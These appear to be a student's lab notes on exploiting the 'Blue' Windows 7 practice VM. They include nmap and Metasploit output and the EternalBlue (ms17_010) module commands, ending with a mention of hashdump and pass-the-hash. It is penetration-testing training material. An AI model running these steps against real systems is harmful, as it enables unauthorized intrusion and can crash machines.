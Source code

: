 **Blue**

<br/>
Victim IP - 192.168.247.130<br/>
<br/>
<br/>
Attacker Kali linux 2021<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
Passive recon N/A - target is an exploitable VM<br/>
<br/>
<br/>
arpscan confirm victim IP<br/>
<br/>
<img height="181" src="image.png" width="650"/><br/>
<br/>
<br/>
└─$ nmap -T4 -p- -A 192.168.247.130 <br/>
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-31 20:41 EST<br/>
Nmap scan report for 192.168.247.130<br/>
Host is up (0.00016s latency).<br/>
Not shown: 65526 closed tcp ports (conn-refused)<br/>
PORT   STATE SERVICE   VERSION<br/>
135/tcp  open msrpc    Microsoft Windows RPC<br/>
139/tcp  open netbios-ssn Microsoft Windows netbios-ssn<br/>
445/tcp  open microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)<br/>
49152/tcp open msrpc    Microsoft Windows RPC<br/>
49153/tcp open msrpc    Microsoft Windows RPC<br/>
49154/tcp open msrpc    Microsoft Windows RPC<br/>
49155/tcp open msrpc    Microsoft Windows RPC<br/>
49156/tcp open msrpc    Microsoft Windows RPC<br/>
49157/tcp open msrpc    Microsoft Windows RPC<br/>
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows<br/>
<br/>
Host script results:<br/>
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s<br/>
| smb2-security-mode: <br/>
|  2.1: <br/>
|_  Message signing enabled but not required<br/>
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: &lt;unknown&gt;, NetBIOS MAC: 00:0c:29:28:81:34 (VMware)<br/>
| smb2-time: <br/>
|  date: 2022-02-01T01:43:40<br/>
|_ start_date: 2022-02-01T15:31:04<br/>
| smb-security-mode: <br/>
|  account_used: guest<br/>
|  authentication_level: user<br/>
|  challenge_response: supported<br/>
|_ message_signing: disabled (dangerous, but default)<br/>
| smb-os-discovery: <br/>
|  OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)<br/>
|  OS CPE: cpe:/o:microsoft:windows_7::sp1<br/>
|  Computer name: WIN-845Q99OO4PP<br/>
|  NetBIOS computer name: WIN-845Q99OO4PP\x00<br/>
|  Workgroup: WORKGROUP\x00<br/>
|_ System time: 2022-01-31T20:43:40-05:00<br/>
<br/>
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .<br/>
Nmap done: 1 IP address (1 host up) scanned in 152.95 seconds<br/>
<br/>
<br/>
ENUMERATION/RESEARCH<br/>
<br/>
135/tcp  open msrpc    Microsoft Windows RPC<br/>
<br/>
Windows 7 Ultimate 7601 Service Pack 1<br/>
google &gt;&gt;&gt; eternal blue<br/>
<br/>
139/tcp  open netbios-ssn Microsoft Windows netbios-ssn<br/>
metasploit &gt; serach smb version.<br/>
auxiliary(scanner/smb/smb_version) &gt;<br/>
<br/>
set RHOSTS 192.168.247.130 <br/>
<br/>
exploit<br/>
<br/>
msf6 auxiliary(scanner/smb/smb_version) &gt; exploit<br/>
<br/>
[*] 192.168.247.130:445  - SMB Detected (versions:1, 2) (preferred dialect:SMB 2.1) (signatures:optional) (uptime:) (guid:{601bf57b-fb90-451d-aae6-2b24df0c6a76}) (authentication domain:WIN-845Q99OO4PP)<br/>
[+] 192.168.247.130:445  -  Host is running Windows 7 Ultimate SP1 (build:7601) (name:WIN-845Q99OO4PP)<br/>
[*] 192.168.247.130:   - Scanned 1 of 1 hosts (100% complete)<br/>
[*] Auxiliary module execution completed<br/>
msf6 auxiliary(scanner/smb/smb_version) &gt; <br/>
<br/>
<br/>
<br/>
<br/>
445/tcp  open microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)<br/>
<br/>
metasploit &gt; serach smb version.<br/>
auxiliary(scanner/smb/smb_version) &gt;<br/>
<br/>
set RHOSTS 192.168.247.130 <br/>
<br/>
exploit<br/>
<br/>
msf6 auxiliary(scanner/smb/smb_version) &gt; exploit<br/>
<br/>
[*] 192.168.247.130:445  - SMB Detected (versions:1, 2) (preferred dialect:SMB 2.1) (signatures:optional) (uptime:) (guid:{601bf57b-fb90-451d-aae6-2b24df0c6a76}) (authentication domain:WIN-845Q99OO4PP)<br/>
[+] 192.168.247.130:445  -  Host is running Windows 7 Ultimate SP1 (build:7601) (name:WIN-845Q99OO4PP)<br/>
[*] 192.168.247.130:   - Scanned 1 of 1 hosts (100% complete)<br/>
[*] Auxiliary module execution completed<br/>
msf6 auxiliary(scanner/smb/smb_version) &gt; <br/>
<br/>
<br/>
Lots of SMB related ports (also box callled blue) will continue research into SMB<br/>
<br/>
Google search &gt; SMB 2.1 exploit<br/>
<br/>
https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/<br/>
<br/>
rapid 7 eternal blue<br/>
<br/>
Numerous articles about wana cry/eternal blue and port 445<br/>
<br/>
EXPLOPITATION<br/>
<br/>
Eternal blue (name is a dead giveaway) is the key.<br/>
<br/>
Following steps on rapid7 or search smb ms17_010<br/>
msf &gt; use exploit/windows/smb/ms17_010_eternalblue<br/>
msf exploit(ms17_010_eternalblue) &gt; show targets<br/>
  ...targets...<br/>
msf exploit(ms17_010_eternalblue) &gt; set TARGET &lt; target-id &gt;<br/>
msf exploit(ms17_010_eternalblue) &gt; show options<br/>
  ...show and set options...<br/>
msf exploit(ms17_010_eternalblue) &gt; exploit<br/>
<br/>
Check options<br/>
<br/>
set RHOSTS to victim IP<br/>
<br/>
exlpoit &gt;&gt;&gt; if failed try again or check options and change the payload<br/>
!system crash! Apparently exploit can cause system crash.<br/>
On some systems, this module may cause system instability and crashes, such as a BSOD or a reboot. This may be more likely with some payloads. <br/>
<br/>
<img src="image 2.png"/><br/>
<br/>
<br/>
<br/>
<br/>
From here hashdump and crack or try pass the hash. This will be covered later in content.<br/>
<br/>
Notes &gt; manual methods are valible to try.. search github, check starts, guides and reviews to find a good exploit. Folow the instructions<br/>
NOTE &gt; this can dos a machine. always be sure before running it. in a live test this could be a critical machine. ask first.<br/>
<br/>
<br/>
